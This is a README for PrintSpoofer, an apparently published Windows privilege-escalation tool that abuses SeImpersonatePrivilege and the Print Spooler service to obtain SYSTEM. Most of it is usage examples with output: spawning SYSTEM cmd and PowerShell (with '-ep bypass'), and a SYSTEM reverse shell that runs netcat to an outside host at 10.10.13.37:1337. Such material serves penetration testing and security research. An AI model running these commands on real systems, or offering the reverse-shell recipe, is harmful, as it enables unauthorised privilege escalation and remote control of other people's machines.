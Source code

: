 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

:information_source: If you want to know how this works, please check out this detailed blog post: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](http://127.0.0.1:4000/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Custom command line to execute
  -i          Interact with the new process in the current console (default is non-interactive)
  -d          Spawn a new process on the currently active desktop
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the currently active desktop
      PrintSpoofer.exe -d -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Example 1: Spawn a SYSTEM command prompt in the current console

:information_source: This command requires an __interactive__ shell.

:warning: Don't run this command through WinRM or in a pseudo-shell (e.g.: `wmiexec.py`).

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 2: Get a SYSTEM reverse shell

:information_source: This command can be used to create a new process and immediately exit.

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 3: Spawn a SYSTEM PowerShell prompt on the active desktop

:information_source: For testing purposes, you can spawn a SYSTEM shell on your desktop. :)

:warning: Don't run this command in a terminal session (RDP).

```txt
C:\TOOLS>PrintSpoofer.exe -d -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
